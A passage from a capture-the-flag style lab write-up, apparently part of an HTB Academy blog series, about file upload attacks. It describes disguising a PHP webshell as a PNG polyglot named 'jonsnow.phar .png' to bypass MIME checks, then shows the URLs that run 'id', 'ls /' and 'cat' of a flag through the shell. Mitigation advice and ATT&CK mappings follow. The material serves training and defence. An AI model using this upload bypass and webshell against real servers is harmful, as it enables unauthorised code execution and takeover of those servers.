There are several changes here: a. the uploaded filename now is
'jonsnow.phar .png'.
b. while we make sure to keep the png header and footer (as they are checked
by the MIMEType, after the png image content (line 21) – we place our
webshell script.
c. I removed large swathes of the png content to reduce space, it will make the
page much more easier to read, of course I kept the header and footer.


*_Figure 27.1 — Lab execution and output verification (Page 27)_*


### directory

#### Technical Methodology & Exploit Execution:

`http://<target-IP>:<target-port>/contact/user_feedback_submissions/<current-`
date>_jonsnow.phar.png?cmd=id


Success! We got the 'id', the webshell works.

Now lets enter the command 'ls /' to see what files are in the root ('/')
directory:
`http://<target-IP>:<target-port>/contact/user_feedback_submissions/<current-`
date>_jonsnow.phar.png?cmd=ls /


We can see the flag name there, lets get its content:
`http://<target-IP>:<target-port>/contact/user_feedback_submissions/<current-`
date>_jonsnow.phar.png?cmd=cat%20/flag_2b8f1d2da162d8c44b369
6a1dd8a91c9.txt


*_Figure 28.1 — Lab execution and output verification (Page 28)_*


*_Figure 28.2 — Lab execution and output verification (Page 28)_*


*_Figure 28.3 — Lab execution and output verification (Page 28)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1190, T1505.003, T1059` |
| **Common Weakness Enumerations** | `CWE-434` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1190`](https://attack.mitre.org/techniques/T1190/) | **Exploit Public-Facing Application** | `Initial Access` | Bypassing extension, MIME-type, and magic byte validation |
| [`T1505.003`](https://attack.mitre.org/techniques/T1505/) | **Server Software Component: Web Shell** | `Persistence` | Uploading executable web shells (PHP, ASPX, JSP) to web root |
| [`T1059`](https://attack.mitre.org/techniques/T1059/) | **Command and Scripting Interpreter** | `Execution` | Executing uploaded scripts via direct HTTP requests |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-434`: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Store uploaded files outside the public web root directory and serve them strictly via an application-level download handler.
- Enforce strict file extension allowlists (not blocklists) and re-encode images to strip embedded PHP/polyglot payloads.
- Ensure the upload storage directory is mounted with the `noexec` flag and disable script execution handlers.


---

## Authoritative References & Recommended Reading

- [HTB Academy: File Upload Attacks](https://academy.hackthebox.com/module/136) — *Official Hack The Box curriculum track*
- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html) — *Secure file upload architecture*
- [PortSwigger: File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload) — *Practical testing labs*
- [PayloadsAllTheThings: File Upload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files) — *Polyglot and extension bypass techniques*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-28-cross-site-scripting-xss/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 28: Cross-Site Scripting (XSS) Exploitation</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 29 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-30-web-attacks/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 30: Web Attacks (HTTP Verb Tampering & IDOR)</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
